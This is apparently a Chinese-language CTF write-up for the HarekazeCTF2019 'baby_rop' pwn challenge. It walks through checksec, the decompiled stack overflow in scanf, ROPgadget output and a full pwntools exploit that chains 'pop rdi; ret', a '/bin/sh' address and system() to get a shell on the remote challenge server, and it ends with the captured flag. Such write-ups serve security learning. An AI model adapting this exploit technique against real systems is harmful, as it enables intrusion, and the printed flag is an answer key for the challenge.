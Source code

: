 ```yaml
---
title: HarekazeCTF2019 baby_rop
date: 2023-10-24
categories:
  - CTF
  - Pwn
---
```


## 前置工作

先 CheckSec，结果如下

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ checksec babyrop            
[*] '/home/ela/Pwn/babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

开启了 NX，其他没啥

用 IDA 64 打开主程序

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[16]; // [rsp+0h] [rbp-10h] BYREF

  system("echo -n \"What's your name? \"");
  __isoc99_scanf("%s", v4);
  printf("Welcome to the Pwn World, %s!\n", v4);
  return 0;
}
```

溢出点就是 `__isoc99_scanf("%s", v4);`，有 `system()` 函数了，再按一下 Shift + F12 找一下 `/bin/sh` 字符串，发现程序里面真有，`/bin/sh` 地址是 `0x601048`，于是想着构建 ROP 链

## 获得 `pop rdi; ret`

使用 ROPgadget 获取所需要的地址

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ ROPgadget --binary babyrop --only "pop|ret"
Gadgets information
============================================================
0x000000000040067c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040067e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400680 : pop r14 ; pop r15 ; ret
0x0000000000400682 : pop r15 ; ret
0x000000000040067b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040067f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400540 : pop rbp ; ret
0x0000000000400683 : pop rdi ; ret
0x0000000000400681 : pop rsi ; pop r15 ; ret
0x000000000040067d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400479 : ret
0x00000000004005fa : ret 0xfffe

Unique gadgets found: 12

```

由上可见，`0x400683` 即我们想要的

## 编写 Exp

```python
from pwn import *

io = remote("node4.buuoj.cn", 27876)
elf = ELF("./babyrop")
system_addr = elf.symbols["system"]
bin_sh_addr = 0x601048
pop_rdi_ret = 0x400683

payload = b"A"*(0x10+0x8) + pack(pop_rdi_ret, 64) + pack(bin_sh_addr, 64) + pack(system_addr, 64)
io.sendline(payload)

io.interactive()
```

这里绕了个弯，进去以后虽然有了权限，但你不知道在哪里，所以我们先运行命令 `find -name flag`，发现 Flag 在 `/home/babyrop/flag`，然后再 `cat /home/babyrop/flag`，得到 Flag 是 `flag{1ff121fc-9e8e-4892-8c6d-108740c7654a}`